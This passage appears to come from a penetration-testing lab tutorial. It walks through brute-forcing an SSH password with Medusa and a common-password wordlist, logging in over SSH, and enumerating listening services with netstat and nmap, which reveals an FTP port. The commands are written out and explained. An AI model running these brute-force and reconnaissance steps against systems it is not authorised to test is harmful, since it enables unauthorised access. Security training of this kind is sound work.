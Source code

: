 We begin our exploration by targeting an SSH server running on a remote system. Assuming prior knowledge of the username sshuser, we can leverage Medusa to attempt different password combinations until successful authentication is achieved systematically.

The following command serves as our starting point:
```bash
  [!bash!]$ medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```
Let's break down each component:
  -h <IP>: Specifies the target system's IP address.
  -n <PORT>: Defines the port on which the SSH service is listening (typically port 22).
  -u sshuser: Sets the username for the brute-force attack.
  -P 2023-200_most_used_passwords.txt: Points Medusa to a wordlist containing the 200 most commonly used passwords in 2023. The effectiveness of a brute-force attack is often tied to the quality and relevance of the wordlist used.
  -M ssh: Selects the SSH module within Medusa, tailoring the attack specifically for SSH authentication.
  -t 3: Dictates the number of parallel login attempts to execute concurrently. Increasing this number can speed up the attack but may also increase the likelihood of detection or triggering security measures on the target system.

```bash
[!bash!]$ medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```

Upon execution, Medusa will display its progress as it cycles through the password combinations. The output will indicate a successful login, revealing the correct password.

Gaining Access
With the password in hand, establish an SSH connection using the following command and enter the found password when prompted:

```bash
  [!bash!]$ ssh sshuser@<IP> -p PORT
```
This command will initiate an interactive SSH session, granting you access to the remote system's command line.

Expanding the Attack Surface
Once inside the system, the next step is identifying other potential attack surfaces. Using netstat (within the SSH session) to list open ports and listening services, you discover a service running on port 21.

```bash
  [!bash!]$ netstat -tulpn | grep LISTEN
  
  tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
  tcp6       0      0 :::22                   :::*                    LISTEN      -
  tcp6       0      0 :::21                   :::*                    LISTEN      -
```
Further reconnaissance with nmap (within the SSH session) confirms this finding as an ftp server.

```bash
[!bash!]$ nmap localhost
  Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-05 13:19 UTC
  Nmap scan report for localhost (127.0.0.1)
  Host is up (0.000078s latency).
  Other addresses for localhost (not scanned): ::1
  Not shown: 998 closed ports
  PORT   STATE SERVICE
  21/tcp open  ftp
  22/tcp open  ssh
  
  Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```
